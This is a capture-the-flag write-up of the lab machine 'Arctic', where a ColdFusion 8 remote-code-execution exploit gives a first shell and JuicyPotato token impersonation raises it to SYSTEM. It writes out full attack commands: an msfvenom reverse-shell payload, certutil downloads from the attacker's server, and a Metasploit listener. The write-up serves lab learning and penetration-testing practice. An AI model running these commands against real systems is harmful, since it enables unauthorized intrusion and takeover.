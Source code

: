 # ARCTIC

Date: 2024-12-12
Target: `10.10.10.11`

Save in a target file:

```bash
echo 10.10.10.11 > target
```

Added also in the hosts file as `artic.htb`.

## Gain Access

### Port Scan Enumeration

I run a full tcp ports scan:

```bash
nmap -p- -v -iL=target -oN nmap/tcp_ports.txt
```

I discovered the following open ports:

* `135`
* `8500`
* `49154`

Performing an aggressive ports scan:

```bash
nmap -p135,8500,49154 -v -iL target -A -oN nmap/target_ports.txt -oX nmap/target_ports.txt

```

I haven't get any more information.
I tried to enumerate them with `telnet` and `nc`, but they did't give me any information.
On the browser I got a web page: `http://artic.htb:8500/`.

### HTTP - Port 8500

I found an administrator login page at: `http://artic.htb:8500/CFIDE/administrator/` and its an **Adobe Coldfusion 8**.
I search for a possibile vulnerability over the internet and I found it, then I used `searchsploit` and I found the same:

```bash
searchsploit Adobe Coldfusion 8
searchsploit -m 50057
```

![image](https://github.com/user-attachments/assets/1fe12b8e-0136-423b-925b-93fe40f8aebd)

I changed some configuration inside the file and I got the shell:

![image](https://github.com/user-attachments/assets/0ad09701-8968-4c4c-9f45-80530f2a3e6b)

## Privilege Escalation

### 1. Token Impersonation via JuicyPotato
#### Initial Findings
Checking privileges revealed `SeImpersonatePrivilege` enabled:
```bash
whoami /priv
```

#### Exploitation
1. **Download JuicyPotato** on your local machine:
   ```bash
   wget "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
   ```
2. **Generate a Meterpreter Reverse Shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=8887 -f exe -o shell.exe
   ```
3. **Start a Web Server**:
   ```bash
   python3 -m http.server 8081
   ```
4. **Transfer Exploits to the Target**:
   ```bash
   cd %TEMP%
   certutil -UrlCache -f http://<IP>:8081/JuicyPotato.exe JuicyPotato.exe
   certutil -UrlCache -f http://<IP>:8081/shell.exe shell.exe
   ```
5. **Start Listener**:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_IP>
   set LPORT 8887
   run
   ```
6. **Run JuicyPotato**:
   ```bash
   .\JuicyPotato.exe -t * -p shell.exe -l 443
   ```

**Outcome**: Obtained a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges.

```
certutil -UrlCache -f http://10.10.16.9:8081/JuicyPotato.exe jp.exe

certutil -UrlCache -f http://10.10.16.9:8081/shell.exe s.exe
```


***

## Resources

* [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057)

***
